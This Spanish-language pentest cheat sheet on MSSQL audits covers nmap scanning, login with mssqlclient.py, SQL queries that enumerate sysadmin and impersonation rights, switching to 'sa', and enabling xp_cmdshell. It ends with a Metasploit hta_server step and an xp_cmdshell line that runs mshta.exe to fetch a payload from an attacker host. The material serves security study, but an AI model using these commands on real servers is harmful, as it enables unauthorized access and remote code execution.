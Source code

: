 
### 📝 **Descripción**

MySQL y Microsoft SQL Server (MSSQL) son sistemas de gestión de bases de datos (DBMS). En auditorías de seguridad, es importante detectar versiones vulnerables y credenciales débiles que permitan acceso no autorizado.

### 🔍 **Puertos Comunes**

|Base de Datos|Puerto|
|---|---|
|MySQL|3306|
|MSSQL|1433|

### 🔎 **Escaneo de Nmap con Detección de Versión**
```bash
nmap -sV -p 1433 --script ms-sql-info ip
```
🛠️ **Comentario:** Este escaneo permite identificar la versión de MSSQL en la máquina objetivo. Si se encuentra una versión antigua, podría ser vulnerable a exploits conocidos.


### 🔑 **Autenticación a MSSQL**:

Si conocemos el usuario y la contraseña, podemos conectarnos con:
```bash
mssqlclient.py user:pass@ip
```

### 📌 **Comandos Útiles en SQL**

Una vez dentro de la base de datos, podemos ejecutar los siguientes comandos:

```sql
-- Ver la versión del sistema
SELECT @@version;

-- Obtener usuarios con permisos de sysadmin
SELECT loginname FROM syslogins WHERE sysadmin = 1;

-- Identificar usuarios con permisos de suplantación
SELECT DISTINCT b.name 
FROM sys.server_permissions a 
INNER JOIN sys.server_principals b 
ON a.grantor_principal_id = b.principal_id 
WHERE a.permission_name = 'IMPERSONATE';

-- Ver el usuario actual en sesión
SELECT system_user;

-- Intentar ejecutar comandos como otro usuario
EXECUTE AS LOGIN = 'sa';

-- Habilitar el uso de comandos del sistema
enable_xp_cmdshell

-- Ejecutar un comando en el sistema
EXEC xp_cmdshell "whoami";

```
🛠️ **Comentario:**

- **xp_cmdshell** permite ejecutar comandos en el sistema operativo desde SQL, pero suele estar deshabilitado por seguridad.
- El comando `EXECUTE AS LOGIN = 'sa'` permite cambiar de usuario si tenemos permisos.
- El comando `IMPERSONATE` podría permitirnos suplantar identidades si tenemos permisos suficientes.

### 🎯 **Explotación con Metasploit**

Podemos abrir una sesión de Metasploit utilizando un payload malicioso:

1️⃣ **Ejecutar el módulo en Metasploit**

```bash
use exploit/windows/misc/hta_server
set SRVHOST <tu_ip>
run
```

2️⃣ **Obtener la URL generada** y ejecutarla en MSSQL con el siguiente comando:

```sql
EXEC xp_cmdshell "mshta.exe http://tu_ip/payload.hta"
```
🛠️ **Comentario:**

- **mshta.exe** ejecuta scripts HTML maliciosos, lo que permite cargar un payload de **Meterpreter** o ejecutar código arbitrario.
- **Este ataque requiere que xp_cmdshell esté habilitado.** Si no lo está, hay que activarlo como se mostró antes.
